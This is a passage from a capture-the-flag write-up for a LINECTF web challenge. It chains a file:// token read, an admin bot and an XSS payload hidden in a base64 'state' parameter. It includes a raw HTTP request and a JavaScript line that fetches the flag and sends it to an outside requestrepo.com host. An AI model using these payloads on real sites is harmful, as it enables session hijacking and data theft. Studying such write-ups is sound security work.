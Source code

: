 We can use the callback endpoint to both authenticate the bot using the admin token and to deliver the XSS:
```
GET /api/auth/callback?code=<admin token>&state=eyJyZWRpcmVjdCI6Ii9sb2dpbj9yZXR1cm5fdXJsPScnIGlkPXggdGFiaW5kZXg9MCBhdXRvZm9jdXMgb25mb2N1c2luPSd2YXIgYT1kb2N1bWVudC5jcmVhdGVFbGVtZW50KGBzY3JpcHRgKTthLnNyYz1gLy9vY3phcHZueS5yZXF1ZXN0cmVwby5jb21gO2RvY3VtZW50LmhlYWQuYXBwZW5kKGEpOycgc3R5bGU9J2Rpc3BsYXk6YmxvY2smdGltZW91dD0nIn0= HTTP/1.1
Host: 35.200.122.11:20000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://35.200.122.11:20000/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: go_session_id=NDExM2JiN2ItNDZiNC00NjU1LWI5N2QtNjg3NDViMDdkMWFl.1dbbc48874dc53b8878a6708088c8b8b71279163
Connection: close
```

Where the `state` is just a base64 encoded json object that redirects to the `/login` endpoint with the XSS payload.

So, to get the flag we must:
1. Create an user with a malicious url that points to `file:///auth/token.db#` (the # is important because curl will ignore everything after it, since the go application appends /verify.txt to the url)
2. Interact with the admin bot. Get the admin token with the auth account from step 1.
3. Send the admin bot to the internal service with the following payload: `/api/auth/callback?code=<admin token from step 2>&state=eyJyZWRpcmVjdCI6Ii9sb2dpbj9yZXR1cm5fdXJsPScnIGlkPXggdGFiaW5kZXg9MCBhdXRvZm9jdXMgb25mb2N1c2luPSd2YXIgYT1kb2N1bWVudC5jcmVhdGVFbGVtZW50KGBzY3JpcHRgKTthLnNyYz1gLy9vY3phcHZueS5yZXF1ZXN0cmVwby5jb21gO2RvY3VtZW50LmhlYWQuYXBwZW5kKGEpOycgc3R5bGU9J2Rpc3BsYXk6YmxvY2smdGltZW91dD0nIn0=`
4. Get the flag, this was my js payload:

```js
fetch(`/flag`).then(x=>x.text()).then(flag=>fetch(`//06sjnkhn.requestrepo.com/?q=${encodeURI(flag)}`));
```

**LINECTF{f133d5cb85ececf2db78d1aef9d526fd}**